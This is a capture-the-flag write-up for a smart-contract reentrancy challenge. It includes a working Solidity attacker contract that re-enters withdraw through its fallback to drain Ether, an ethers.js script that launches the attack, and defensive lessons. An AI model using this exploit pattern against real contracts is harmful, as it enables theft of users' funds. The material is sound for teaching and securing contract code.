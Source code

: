 # Level 10: Reentrancy

## Challenge Overview

This challenge demonstrates a classic reentrancy vulnerability.  
The goal is to exploit the `Reentrance` contract by repeatedly withdrawing Ether to drain its balance.

## Goal

- Exploit the `withdraw` function of the `Reentrance` contract to drain all of its funds.

## Solution

The `withdraw` function in the `Reentrance` contract is vulnerable because it transfers Ether to the caller **before** updating the internal balance.  
This allows a malicious contract to repeatedly call `withdraw` and drain the funds.

### Steps:

#### 1. Deploy a malicious contract with the following code

```solidity
pragma solidity ^0.8.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract ReentrancyAttack {
    address payable public target;

    constructor(address payable _target) {
        target = _target;
    }

    function attack() external payable {
        IReentrance(target).donate{value: msg.value}(address(this));
        IReentrance(target).withdraw(msg.value);
    }

    fallback() external payable {
        if (address(target).balance >= msg.value) {
            IReentrance(target).withdraw(msg.value);
        }
    }
}
```

#### 2. Deploy the `ReentrancyAttack` contract and fund it with Ether to start the attack.

#### 3. Call the `attack` function to drain the `Reentrance` contract

```javascript
const ReentrancyAttack = await ethers.getContractFactory("ReentrancyAttack");
const attacker = await ReentrancyAttack.deploy(targetAddress);
await attacker.attack({ value: ethers.utils.parseEther("0.1") });
```

#### 4. Verify that the target contract’s balance is now zero.

---

## Lessons Learned

- Always update state variables before making external calls.
- Use the **checks-effects-interactions** pattern to avoid reentrancy vulnerabilities.
- Consider using reentrancy guards (`nonReentrant` modifiers) to prevent recursive calls.
